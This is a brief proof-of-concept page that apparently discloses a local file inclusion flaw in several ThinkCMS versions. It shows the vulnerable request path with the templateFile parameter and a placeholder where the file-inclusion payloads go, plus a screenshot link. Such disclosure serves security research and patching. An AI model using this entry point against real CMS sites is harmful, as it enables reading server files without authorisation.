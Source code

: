 ```yaml
---
title: cms-poc
---
```


## ThinkCMS LFI v1.6.0/2.1.0/2.2.0-2

Poc:
/?a=display&templateFile={LFI Payloads}
## ![2021_02_12_image.png](https://cdn.logseq.com/%2F7aa8ab99-753a-4230-847b-43a1c3a3ef47c8230693-a6e1-4596-9576-d1d5819fd2692021_02_12_image.png?Expires=4766662363&Signature=QvyMnW0k1ktoKtVWVdwzn7ivUKdLd33TACOkIMyIEwwIxzsAMfRtUdUG748IthyvovWC-GFxJQk3937LWErEchxIv~X0fxaR6R86lno0nkXaH9QDxLIiA~qZz4O2faJ2IdtynOLcP-U809HIpFKuZcrNbtcw1MVRS5f-4rVYcvKboycU2OzrGAF~EwBkfOf1Q1GZ4H-cQ8wRC9opc4F1EW0KhFxUGbdWxKy-SydWKEN1bhf8wqQWmFJ~ZfMdOSOKSwBXGRmYfaDy0hvE0McoCtzkNncKHmBWfa1K75aFvU09IBc-WPTANYI-yS~j2EhzKcMVti07hF-A4mz3jdHAqw__&Key-Pair-Id=APKAJE5CCD6X7MP6PTEA)
##
